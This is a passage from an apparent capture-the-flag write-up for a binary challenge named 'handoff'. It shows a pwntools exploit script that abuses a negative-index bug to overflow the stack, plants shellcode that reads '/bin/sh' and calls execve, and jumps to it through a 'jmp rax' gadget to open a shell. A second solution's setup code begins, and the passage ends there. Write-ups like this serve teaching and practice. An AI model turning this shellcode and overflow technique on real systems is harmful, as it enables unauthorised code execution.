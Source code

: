 ```python
    jmp_rax = 0x4011ae

    # shellcode (I tried my best to make it only 40 bytes long ;) )
    #     read(stdin, binsh, 8);
    #     execve(binsh, NULL, NULL);
    shellcode = asm(f"""
                    xor rdi, rdi;
                    mov rsi, {binsh};
                    mov rdx, 8;
                    xor rax, rax;
                    syscall;
                    mov rdi, rsi;
                    xor rsi, rsi;
                    xor rdx, rdx;
                    mov rax, 59;
                    syscall;
                    """)

    # Send a message to a recipient
    r.sendlineafter(b'Exit mission control', b'2')

    # negative index bug, unpredictable things will happen if the index is negative
    # fgets will buffer overflow its own stack
    r.sendlineafter(b'send a transmission to?', b'-1')

    # write shellcode on stack and execute 
    # rax is pointing at the beginning of shellcode 
    # (the shellcode must be less than or equal to 40 bytes)
    payload = shellcode + p64(jmp_rax)

    # send the payload
    r.sendlineafter(b'like to send them?', payload)

    # SYS_read is invoked. write /bin/sh on 0x404048
    r.sendline(b'/bin/sh\0')

    # SYS_execve is invoked and enjoy the shell privilege
    r.interactive()
    
    

if __name__ == "__main__":
    main()
```

### Solution 2 (Common Solution)

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./handoff_patched")

context.binary = elf
context.arch = "amd64"
context.terminal = ["alacritty", "-e", "sh", "-c"]
dbginit = """
b main
b *0x4013e8
c
"""

```